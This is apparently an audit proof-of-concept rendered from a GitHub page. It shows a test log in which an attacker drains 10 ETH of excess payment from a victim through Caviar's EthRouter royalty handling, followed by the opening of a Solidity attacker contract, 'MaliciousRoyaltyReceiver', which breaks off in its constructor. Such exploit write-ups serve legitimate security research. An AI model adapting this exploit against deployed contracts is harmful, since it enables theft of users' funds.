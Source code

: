 ```solidity
  ============================================
   Before exploit
  ============================================
   | Attacker balance:            100.0 ETH
   | Victim balance:              100.0 ETH
   | Router balance:              0.0 ETH
   | Pool balance:                100.0 ETH
  ============================================
  
  ============================================
   After exploit
  ============================================
   | Attacker balance:            110.625 ETH
   | Victim balance:              64.375 ETH
   | Router balance:              0.0 ETH
   | Pool balance:                125.0 ETH
  ============================================
  
  ============================================
   Data
  ============================================
   | Amount ETH paid for NFT:     25.0 ETH
   | Royalty paid to receiver:    0.625 ETH
   | Stolen excess ETH:           10.0 ETH
  ============================================
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {ERC721Royalty} from "@openzeppelin/contracts/token/ERC721/extensions/ERC721Royalty.sol";

import {ERC721TokenReceiver} from "solmate/tokens/ERC721.sol";

import "./Fixture.sol";

/**
 * @notice Needed functions interface of the ERC2981 NFT contract that we will use for this PoC.
 * @dev https://polygonscan.com/address/0x1024Accd05Fa01AdbB74502DBDdd8e430d610c53#code
 */
interface IPixels {
    function creatorOf(uint256) external view returns (address);

    function setCreatorRedirect(address to) external;
}

/**
 * @title AttackerContract.
 * @notice The main logic for exploiting the vulnerability in PrivatePool.sol.
 */
contract MaliciousRoyaltyReceiver is Ownable, ERC721TokenReceiver {
    /// @notice The on-chain NFT collection contract that we will use for this PoC.
    ERC721Royalty nft;

    /// @notice the Caviar EthRouter contract.
    EthRouter router;

    /**
     * @param _nft The on-chain NFT collection contract that we will use for this PoC.
     * @param _router the Caviar EthRouter contract.
     */
    constructor(address _nft, address _router) {
```